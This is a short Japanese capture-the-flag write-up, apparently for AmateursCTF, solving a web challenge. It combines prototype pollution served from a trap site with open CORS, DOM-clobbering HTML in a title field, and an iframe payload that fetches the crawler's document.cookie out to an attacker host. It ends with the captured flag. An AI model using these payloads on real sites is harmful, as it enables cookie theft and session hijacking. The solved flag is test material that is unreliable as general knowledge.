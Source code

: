 1. Prototype Pollition用の罠サイトを立てる。

    - <https://trap.xxxx/>

    ```json
    {"__proto__":{"sanitize":false} }
    ```

    この時、CORSを許可する必要があります。

    - Access-Control-Allow-Origin: *
    - Access-Control-Allow-Methods: GET, POST
    - Access-Control-Allow-Headers: X-Requested-With

2. `title`及び`body`パラメータに以下を指定してページを生成する。

    - title

    ```text
    <a id="debug" name=extension href="https://trap.xxxx/" ><a id="debug" name=x>
    ```

    - body

    ```text
    <iframe src="javascript:fetch('https://trap.xxxx/?'+document.cookie)"></iframe>
    ```

3. クローラに生成したページをアクセスさせる。

4. フラグとなるcookie付きのリクエストが送られてくる。

```text
amateursCTF{s@nit1zar_ap1_pr3tty_go0d_but_not_p3rf3ct}
```

### 余談

Prototype Pollution用の罠サイトのURLが長くなると文字数制限でエラーとなるため、なかなか面倒でした。  
CORS制限がなければ、Pastebinで終わりだったような気がします。  
ngrokやAmazon API Gatewayのデフォルトドメインを使うとtitleが長くなりすぎてエラーとなったため、仕方なくさくらのレンタルサーバを使いました。  
こういう時ドメイン持ってると楽だなと思いました。
